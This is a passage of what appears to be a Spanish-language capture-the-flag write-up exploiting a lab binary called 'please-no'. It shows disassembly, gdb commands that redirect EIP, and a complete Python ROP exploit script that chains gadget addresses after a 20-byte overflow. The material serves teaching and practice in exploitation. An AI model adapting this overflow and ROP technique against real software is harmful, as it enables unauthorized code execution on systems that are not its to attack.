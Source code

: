 ```
 80485ed:	c7 04 24 0a 00 00 00 	mov    DWORD PTR [esp],0xa
 80485f4:	e8 57 fe ff ff       	call   8048450 <putchar@plt>       <--- Muestra por pantalla el contenido
 80485f9:	89 34 24             	mov    DWORD PTR [esp],esi
 80485fc:	e8 ff fd ff ff       	call   8048400 <fclose@plt>        <--- Cierra el fichero
 8048601:	83 c4 08             	add    esp,0x8
 8048604:	5e                   	pop    esi
 8048605:	c3                   	ret 
```
Apuntamos el EIP hacia 0x8048590:
```
set {int}0xbffff38c = 0x8048590
```
Ahora solo nos queda apuntar a exit:
```
08048420 <exit@plt>:
8048420:	ff 25 1c a0 04 08    	jmp    DWORD PTR ds:0x804a01c
8048426:	68 20 00 00 00       	push   0x20
804842b:	e9 a0 ff ff ff       	jmp    80483d0 <printf@plt-0x10>
```
```
set {int}0xbffff390 = 0x8048420
```

Python final para explotar:
```
#!/usr/bin/python
# Fichero pwn_please_no.py 
# Exploit ROP

 
from struct import pack
 
binary = "please-no"
junk = "A" * 20

rop = pack('<I', 0x8048690)   
rop += pack('<I', 0x8048601)    
rop += pack('<I', 0x1B0B0C41)   
rop += pack('<I', 0xAE13374E)   
rop += pack('<I', 0xdeadbeef)   
rop += pack('<I', 0x8048650)   
rop += pack('<I', 0x80483c9)  
rop += pack('<I', 0xB0B01337)   
rop += pack('<I', 0x8048590)
rop += pack('<I', 0x08048420)

payload = junk + rop 
print payload

# Fin fichero pwn_please_no.py
```
